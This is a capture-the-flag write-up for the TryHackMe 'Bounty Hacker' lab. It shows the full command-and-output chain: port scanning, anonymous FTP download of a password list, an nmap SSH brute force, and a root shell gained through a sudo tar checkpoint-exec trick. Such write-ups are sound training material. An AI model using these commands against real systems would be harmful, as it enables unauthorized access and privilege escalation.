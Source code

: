# Bounty Hacker

**Date:** 09, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/cowboyhacker) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.32.142 -oN nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:00 IST
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.7.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1912.04 seconds
```

### Port 80 - Webpage

![Bounty Hacker](Images/BountyHacker-Home.png)

---

## FTP Anonymous Access

- We can find two files in `ftp` by using `anonymous` login:
    - locks.txt
    - tasks.txt

```bash
ftp 10.10.32.142
Connected to 10.10.32.142.
220 (vsFTPd 3.0.3)
Name (10.10.32.142:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (527.0338 kB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.08 secs (4.9431 kB/s)
ftp> exit
221 Goodbye.
```

---

## Who wrote the task list? 
- **Answer:** lin
- **Steps to Reproduce:** 

```bash
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

---

## What service can you bruteforce with the text file found?
- **Answer:** ssh
- **Steps to Reproduce:**
    - Using `locks.txt`, bruteforce ssh service and check if you any of that is a valid password for `lin`.

```bash
$ nmap -p 22 --script ssh-brute.nse --script-args userdb=users.txt,passdb=locks.txt 10.10.32.142
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 14:09 IST
NSE: [ssh-brute] Trying username/password pair: lin:lin
[..snip..]
Nmap scan report for 10.10.32.142
Host is up (0.16s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     lin:REDACTED - Valid credentials
|_  Statistics: Performed 21 guesses in 17 seconds, average tps: 1.2

Nmap done: 1 IP address (1 host up) scanned in 18.81 seconds
```

---

## What is the users password? 
- **Answer:** REDACTED
- By ssh bruteforce, one can find the user's password!

---

## user.txt

- Login into the `ssh` using the credentials found:

```bash
$ ssh lin@10.10.32.142
The authenticity of host '10.10.32.142 (10.10.32.142)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.32.142' (ECDSA) to the list of known hosts.
lin@10.10.32.142's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{REDACTED}
```

---

## root.txt

### Check sudo permissions

```bash
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### Priv Esc using tar

```bash
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id   
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cd /root      
# ls
root.txt
# cat root.txt
THM{REDACTED}
```

- Yay! We rooted the room!

---